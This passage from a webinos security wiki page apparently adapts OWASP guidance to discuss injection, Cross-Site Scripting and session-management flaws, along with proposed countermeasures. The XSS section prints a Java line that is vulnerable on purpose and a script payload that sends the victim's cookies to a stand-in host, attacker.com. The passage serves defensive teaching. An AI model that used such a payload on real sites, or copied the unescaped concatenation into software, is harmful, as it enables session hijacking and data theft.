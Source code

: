 Based on these proposals, the following webinos countermeasures are
proposed.

1.  Secure code best practices should be adopted by webinos developers.
    See [Further Security and Privacy
    Guidelines](/redmine/projects/t3-5/wiki/Deliverable_Guidelines)
    section for more information.
2.  webinos applications should be tested with defined patterns of
    improperly formatted input data.

#### Cross-Site Scripting (XSS)[¶](#Cross-Site-Scripting-XSS)

This occurs whenever an application takes untrusted data and sends them
to a web browser without proper validation and/or escaping

An example of this threat is illustrated below:

    (String) page += "<input name='creditcard' type='TEXT‘ value='" + request.getParameter("CC") + "'>";

The attacker modifies the ‘CC’ parameter in their browser to:

    '><script>document.location='http://www.attacker.com/cgi-bin/cookie.cgi?foo='+document.cookie</script>'

OWASP proposes the following mitigations for dealing with this threat/

1.  Properly escape all untrusted data based on the HTML context (body,
    attribute, JavaScript, CSS, or URL) that the data will be placed
    into.
2.  Positive or “white-list” input validation, but is not a complete
    defense as many applications must accept special characters.
3.  Consider employing Mozilla's new Content Security Policy (Firefox 4)
    to defend against XSS.

Because this threat enables improper cross-application injection and
data access, the following webinos countermeasures are proposed.

1.  Secure code best practices should be adopted by webinos developers.
    See [Further Security and Privacy
    Guidelines](/redmine/projects/t3-5/wiki/Deliverable_Guidelines)
    section for more information.
2.  webinos applications should be tested against defined patterns of
    improperly formatted input data.
3.  webinos runtime could support Mozilla's Content Security Policy.

#### Broken Authentication and Session Management[¶](#Broken-Authentication-and-Session-Management)

Application functions related to authentication and session management
are often not implemented correctly. Examples of this exploitable
vulnerability are the following.

-   Links like:
    <http://example.com/sale/saleitems;jsessionid=2P0OC2JDPXM0OQSNDLPSKHCJUN2JV?dest=Hawaii>
    pose at stake user security: An unaware user e-mails the link
    without knowing he is also giving away his session ID
-   Application’s timeouts aren’t set properly. User uses a public
    computer to access site. Instead of selecting "logout" the user
    simply closes the browser tab and walks away
-   User passwords are not encrypted, exposing every users’ password to
    the attacker.
